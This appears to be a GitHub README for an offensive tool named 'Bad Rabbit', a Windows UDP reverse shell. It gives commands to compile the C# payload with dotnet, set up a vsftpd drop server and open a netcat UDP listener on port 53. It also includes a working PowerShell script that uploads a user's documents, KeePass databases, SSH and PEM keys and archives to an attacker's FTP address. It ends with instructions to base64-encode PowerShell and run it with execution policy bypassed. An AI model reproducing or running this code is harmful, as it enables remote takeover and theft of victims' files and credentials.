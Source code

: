 # Bad Rabbit  
## Windows-UDP-Reverse-shell 

## NetCore compiling   

Don't forget like on my payload obfuscation repository is ncessary to compile our C# with NetCore

```sh
dotnet new console -o <nameofproject>
cd <nameofproject>
code . (allowing to open the progam.cs in vscode directly)
```  
in this Folder using the program.cs and write or copy our code, and compile it.

```sh
dotnet build
```
But if you want the compilation in one file only you can run that:
```sh
dotnet publish -r win-x64 -c Release /p:PublishSingleFile=true
```
## Prerequisties
### Installation of FTP server  
```sh
apt install vsftpd
```  
### if is necessary open the firewall port  
```sh
sudo cp /etc/vsftpd.conf /etc/vsftpd.conf.orig
nano /etc/vsftpd.conf
```  

modify this lines if is necessary :
```sh
listen=YES
listen_ipv6=NO
connect_from_port_20=YES
anonymous_enable=NO
local_enable=YES
write_enable=YES
chroot_local_user=YES
allow_writeable_chroot=YES
secure_chroot_dir=/var/run/vsftpd/empty
pam_service_name=vsftpd
pasv_enable=YES
pasv_min_port=40000
pasv_max_port=45000
userlist_enable=YES
userlist_file=/etc/vsftpd.userlist
userlist_deny=NO
```  
and add this if is not in:
```sh
allow_writeable_chroot=YES
```  
```sh
adduser "username" 
echo "username" | sudo tee -a /etc/vsftpd.userlist
sudo systemctl restart vsftpd
```  
## Begin Exploit  
after that check the connection on the server, if it doesn't work give the write rights on the destination folder (on the server)  

### Listen on our server machine 
using netcat on UDP port because we are build a UDP server connection

```sh
nc -luvnp 53
```
Executing our UDP reverse shell which we are compile previously  

### Powershell script to extract all the data we want  
```sh
$WebClient = New-Object System.Net.WebClient
$Dir="C:\Users\$env:UserName\"
$FTP = "ftp://USER:PASSWORD@OURIP/"
foreach($item in (Get-ChildItem $Dir -Recurse -Include *.docx, *.txt, *.xlsx, *.csv, *.pptx, *.kdbx, *.png, *.jpg, *.zip, *.rar, *.ppk, *.pem, *.xml, *.db, *.rtf)){;"Uploading $item...";$URI = New-Object System.Uri($FTP+$item.Name) ;$WebClient.UploadFile($URI, $item.FullName)}
``` 
### We can add any type of file extension and change the folder where we want to extract the data  


### Final step for the success of our exploit; encode in base 64 to bypass the execution problems  
we can use this links but is completely possible to make it in terminal  
https://raikia.com/tool-powershell-encoder/
```sh
powershell.exe -exec bypass -enc .....
```
